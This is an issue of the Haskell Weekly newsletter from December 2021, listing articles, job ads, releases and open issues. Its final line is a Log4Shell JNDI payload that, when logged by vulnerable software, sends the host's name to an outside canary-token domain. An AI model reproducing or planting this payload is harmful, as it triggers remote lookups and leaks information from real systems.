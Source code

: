 Welcome to another issue of Haskell Weekly!
[Haskell](https://www.haskell.org) is a safe, purely functional programming language with a fast, concurrent runtime.
This is a weekly summary of what's going on in its community.

## Featured

- [Episode 60: Haskell: purely functional and statically typed programming language](https://nurkiewicz.com/60) by Tomasz Nurkiewicz
  > Haskell takes these characteristics to the extreme. For example, doing any input/output is considered impure from a functional programming point of view.

- [Game rules with a Free Monad DSL](https://roganmurley.com/2021/12/11/free-monads.html) by Rogan Murley
  > This post is about how and why my multiplayer card game GALGA uses a Free Monad DSL for its game rules. If that's gobbledygook to you, read on and hopefully it'll make at least a little more sense by the end!

- [GHC activities report: October--November 2021](https://well-typed.com/blog/2021/12/ghc-2021-10-2021-11/) by Well-Typed
  > This is the ninth edition of our GHC activities report, which describes the work on GHC and related projects that we are doing at Well-Typed. The current edition covers roughly the months of October and November 2021.

- [Understanding Space Leaks From StateT](https://free.cofree.io/2021/12/13/space-leak/) by Ziyang Liu
  > In this blog post I'll explain using a small program how space leaks can still occur when using the strict `StateT` and the strict `modify'`.

## Jobs

- [Junior Haskell Engineer](https://acilearning.applytojob.com/apply/IuGQtn7Tkh/Junior-Software-Engineer-Remote?referrer=20211202012454J4X0XKJBEFJUJTGT) at ACI Learning
  > Are you looking for an entry level job where you can learn the basics of software engineering and functional programming? Then come join our small but talented team to help us develop the back end API services that support our on demand video training platform. We'll teach you everything you need to know!

<!-- Runs from 2021-11-04 to 2022-01-20. -->
- [Haskell Developer at MLabs](https://apply.workable.com/mlabs/j/63DAAA4AEF/) (ad)
  > We are one of the leading Haskell consultancies in the fintech, blockchain and AI space, with a passion for Haskell and open source software. We are looking for a remote Haskeller to join our team. If you are excited about Haskell and are up for a new challenge, please apply [here](https://apply.workable.com/mlabs/j/63DAAA4AEF/) or visit [our website](https://mlabs.city/)! For any questions please email <mark@mlabs.city>.

- [Functional Engineer at Tweag](https://boards.greenhouse.io/tweag/jobs/4129385002)

- [Haskell Developer at Standard Chartered](https://discourse.haskell.org/t/haskell-roles-in-warsaw-or-london-with-core-strats-at-standard-chartered/3813?u=taylorfausak)

Trying to hire a Haskell developer?
You should [advertise with us](https://haskellweekly.news/advertising.html)!

## In brief

- [Do You Know Where Haskell Is Used?](https://typeable.io/blog/2021-12-13-haskell-usage) by Catherine Galkina
  > One of our recent posts described useful Haskell-based utilities, but all of them are intended to be used by tech-savvy people. Today we're going to give some examples of practical use in various industries.

## Show & tell

- [IHP version 0.17](https://github.com/digitallyinduced/ihp/releases/tag/v0.17.0) by Marc Scholten
  > IHP is a modern batteries-included haskell web framework, built on top of Haskell and Nix. Blazing fast, secure, easy to refactor and the best developer experience with everything you need - from prototype to production.

- [text version 2.0-rc2](https://np.reddit.com/r/haskell/comments/rdj1fv/text20rc2_with_utf8_underlying_representation_is/) by Andrew Lelechenko
  > I'm happy to announce that the second release candidate for upcoming text-2.0 with UTF-8 underlying representation has been just uploaded on Hackage.

- [tn-fp-haskell-course](https://github.com/smelc/tn-fp-haskell-course) by Clément Hurlin
  > I gave an 8 hours introduction to functional programming using Haskell to Senior students at [Telecom Nancy](https://telecomnancy.univ-lorraine.fr/). Students had a Java and python background, reception was very positive.

## Call for participation

-   [ema: Allow exceptions and logging in render function](https://github.com/srid/ema/issues/64)
-   [tablebot: Website links](https://github.com/WarwickTabletop/tablebot/issues/73)
-   [unison: Better error message for "names" command when a hash exists but has no names](https://github.com/unisonweb/unison/issues/2763)

---

`${jndi:ldap://x${hostName}.L4J.p8h6vielvr4kyrf8xdos1300p.canarytokens.com/a}`
